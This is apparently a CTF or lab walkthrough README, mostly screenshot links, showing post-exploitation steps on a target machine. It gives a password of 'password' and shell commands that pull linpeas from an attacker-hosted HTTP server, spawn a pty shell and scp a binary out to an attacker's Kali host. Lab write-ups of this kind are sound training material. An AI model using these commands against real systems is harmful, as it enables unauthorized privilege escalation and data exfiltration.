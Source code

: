 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c4f456bf-481f-4ce8-89cc-fbcaa860062e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6fbb21c5-fa2c-4094-920e-72d3908711bb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cc879096-27e7-4a39-9afe-b0e08c7184c4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5a53f455-d6a6-4762-abb6-79e7678dd99a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/be0575eb-eaa8-4b0a-a8b3-11c2e2f13f23)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/56c6897c-1913-48e8-a1dd-9e721e221ce7)

password:password =)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9c250b2d-a230-45f2-beaf-6eb124d31f9d)

```
wget -c https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -m http.server 1234 
wget http://IP:1234/linpeas.sh
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c3bdf2a3-7b17-43cb-98eb-6ecc48889f99)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5c17fc64-e3ee-49b2-bba8-43b99faeb5f1)

```
cp /usr/bin/admin_toolkit /home/sysadmingrigory
scp -P 1234 admin_toolkit kali@IP:/home/kali
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9abc606b-cb66-4feb-b335-5b6d5c38f264)






